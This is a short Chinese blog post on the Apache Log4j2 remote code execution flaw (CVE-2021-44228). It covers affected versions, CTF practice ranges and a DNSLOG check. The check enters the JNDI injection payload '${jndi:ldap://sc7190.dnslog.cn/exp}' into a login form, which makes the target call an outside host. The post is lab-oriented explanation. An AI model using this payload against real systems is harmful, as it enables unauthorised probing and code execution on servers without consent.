






# Apache log4j2-RCE (CVE-2021-44228) - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283289.html`](https://www.cnblogs.com/NoCirc1e/p/16283289.html)



Apache Log4j2 是一款 Java 日志框架，大量应用于业务系统开发。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）。

## 0x01 漏洞简介

Apache Log4j2 是一个基于 Java 的日志记录工具。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。

漏洞适用版本为`2.0 <= Apache log4j2 <= 2.14.1`，只需检测 Java 应用是否引入 log4j-api , log4j-core 两个 jar。若存在应用使用，极大可能会受到影响。

## 0x02 环境准备



验证靶场：

CTFSHOW（[`ctf.show/challenges`](https://ctf.show/challenges)）



VULFOCUS（[`vulfocus.io/`](http://vulfocus.io/)）



掌控安全封神台（[`hack.zkaq.cn/battle`](https://hack.zkaq.cn/battle)）


## 0x03 漏洞验证（DNSLOG 篇）

我们通过 JNDI 注入请求 DNSLOG 的恶意语句，如果在 DNSLOG 端能查看到访问记录，则证明远程代码执行漏洞存在

我们使用 CTFshow 的靶场来做后续验证

我们直接在登录框输入恶意代码：

```
${jndi:ldap://sc7190.dnslog.cn/exp}
```



然后我们成功在 DNSLOG 端查看到访问记录，证实这里漏洞存在

